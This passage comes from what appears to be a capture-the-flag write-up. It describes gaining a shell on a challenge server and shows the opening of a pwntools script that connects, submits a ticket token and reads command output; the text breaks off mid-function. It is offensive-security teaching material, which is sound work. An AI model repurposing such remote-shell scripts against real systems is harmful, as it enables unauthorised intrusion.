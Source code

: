 ![working_shell.png](working_shell.png)

However commands that produced long outputs were split in several packets.
We first used Wireshark to read their outputs, but we did not find the flag quickly and it was too bothersome.

### Using Python

So we wrote a Python script to run shell commands:

```python
#!/usr/bin/env python3
# Dependency: pip install pwntools
import logging
import re
import struct
from pwn import remote

logger = logging.getLogger('main')
logging.basicConfig(format='[%(levelname)-5s] %(message)s', level=logging.INFO)

conn = remote('calendar.satellitesabove.me', 5061)
line = conn.recvline()
assert line == b'Ticket please:\n'
conn.send('ticket{foxtrot83312foxtrot:GBWTWo89p8AmKvRDrftVCAdkZss33s_45jYea__j3Kg7F-eXreencPal3uFdDF7m9A}\n')
line = conn.recvline().decode()
matches = re.match(r'Starting up CFS UDP Forwarding Service on tcp:([0-9.]+):([0-9]+)', line)
assert matches, "Unexpected line %r" % line
remote_addr, remote_port = matches.groups()
remote_port = int(remote_port)

def recv_from_first_conn():
    output = []
    while conn.can_recv(timeout=.1):
        line = conn.recvline().decode('utf-8', 'replace')
        logger.info("LOG: %r", line.rstrip())
        output.append(line)
    return ''.join(output)

def recv_from_first_conn_until_keyword(kw):
```